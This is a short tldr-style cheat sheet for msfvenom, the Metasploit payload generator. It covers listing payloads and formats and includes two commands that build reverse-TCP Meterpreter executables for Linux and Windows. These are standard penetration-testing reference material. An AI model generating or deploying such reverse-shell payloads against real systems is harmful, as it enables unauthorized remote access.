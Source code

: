 # msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List Payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an elf with a reverse tcp handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > reverseTcpElf`

- Create an exe with a reverse tcp handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > reverseTcp.exe`
